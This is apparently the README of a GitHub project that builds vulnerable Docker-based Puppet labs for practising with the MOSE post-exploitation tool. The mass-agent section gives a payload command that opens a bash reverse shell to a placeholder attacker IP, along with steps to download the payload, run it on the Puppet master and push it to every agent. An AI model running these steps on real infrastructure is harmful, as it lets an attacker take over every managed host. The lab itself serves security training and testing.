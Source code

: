 # puppet-test-lab
[![License](http://img.shields.io/:license-mit-blue.svg)](https://github.com/master-of-servers/puppet-test-lab/blob/master/LICENSE)
[![Build Status](https://dev.azure.com/jaysonegrace/puppet-test-lab/_apis/build/status/master-of-servers.puppet-test-lab?branchName=master)](https://dev.azure.com/jaysonegrace/puppet-test-lab/_build/latest?definitionId=32&branchName=master)

Create test labs which can be used to play around with MOSE and Puppet.

**Warning, take heed: This lab should be run in a controlled environment, as it contains vulnerable assets.**

## Dependencies
You must download and install the following for this environment to work:
* [Docker](https://docs.docker.com/install/)
* [Docker Compose](https://docs.docker.com/compose/install/)
* [Python 3](https://www.python.org/downloads/release/python-374/)

## Basic Lab Build Instructions
To create an environment with a Puppet Master that controls a single agent with a simple hello world module, run the following command:
```
cd basic && make run
```

To run MOSE against it:
1. Build MOSE using `make build` in the MOSE repo
2. Generate a payload with MOSE: `./mose -c "touch /tmp/BLA && echo test >> /tmp/BLA" -t puppet`
3. Get it to the puppet master: `docker exec -it basic-puppetmaster wget http://YOURIPADDRESSGOESHERE:8080/puppet-linux`
4. Exec into the puppet master: `docker exec -it basic-puppetmaster bash`
5. Run the payload: `chmod +x puppet-linux; ./puppet-linux`
6. Wait for 30 minutes or exec into one of the agents and kick off the payload manually: `docker exec -it basic-puppetagent bash` and then run `puppet agent -t`
7. For this example, you should note that a file has been created in `/tmp` in the basic-puppetagent container, as we specified in step 2.


To tear down the basic lab, run the following command:
```
make destroy
```

## Mass Agent Lab Build Instructions
To create an environment with a Puppet Master that controls n number of agents, start by specifying the number of agents to create:
1. Open mass_puppet.py
2. Change `number_agents` to your desired number of agents. The counter starts at 2, so 21 agents actually yields 19.

Next, run the following command to stand up the environment:
```
cd mass_agents && make run
```

To run MOSE against the lab and get a ton of shells, do the following:
1. Build MOSE using `make build` in the MOSE repo
2. Download Platypus from here: https://github.com/WangYihang/Platypus/releases/tag/v1.1.0
3. Run Platypus using the instructions provided in the repo's README
4. Generate a payload with MOSE: `./mose -c "bash -i >& /dev/tcp/YOURIPADDRESSGOESHERE/8080 0>&1 &" -t puppet`
5. Get it to the puppet master: `docker exec -it massagents-puppetmaster wget http://YOURIPADDRESSGOESHERE:8080/puppet-linux
6. Exec into the puppet master: `docker exec -it massagents-puppetmaster bash`
7. Run the payload: `chmod +x puppet-linux; ./puppet-linux`

Back on the attackers system, kick off the agents by running: 
```
bash pwn.sh
```

To tear down the mass agent lab, run the following command:
```
make destroy
```

## Extended Lab Build Instructions
To create an environment with a Puppet Master that controls a prod and dev environment that include a web application, a mysql database, and various package installs, run the following command:
```
cd extended && make run
```

To run MOSE against it:
1. Build MOSE using `make build` in the MOSE repo
2. Generate a payload with MOSE: `./mose -c "touch /tmp/BLA && echo test >> /tmp/BLA" -t puppet`
3. Get it to the puppet master: `docker exec -it extended-puppetmaster wget http://YOURIPADDRESSGOESHERE:8090/puppet-linux`
4. Exec into the puppet master: `docker exec -it extended-puppetmaster bash`
5. Run the payload: `chmod +x puppet-linux; ./puppet-linux`
6. Wait for 30 minutes or exec into one of the agents and kick off the payload manually: `docker exec -it prodlaptop bash` and then run `puppet agent -t`
7. For this example, you should note that a file has been created in `/tmp` in the prodlaptop container, as we specified in step 2.

You can also target development systems by running `puppet agent -t --environment development` on the appropriate systems. 

This environment can be used for more interesting attack chains, such as targeted payloads specifically for the webservers, leveraging secrets to access a database, etc.

To tear down the extended lab, run the following command:
```
make destroy
```
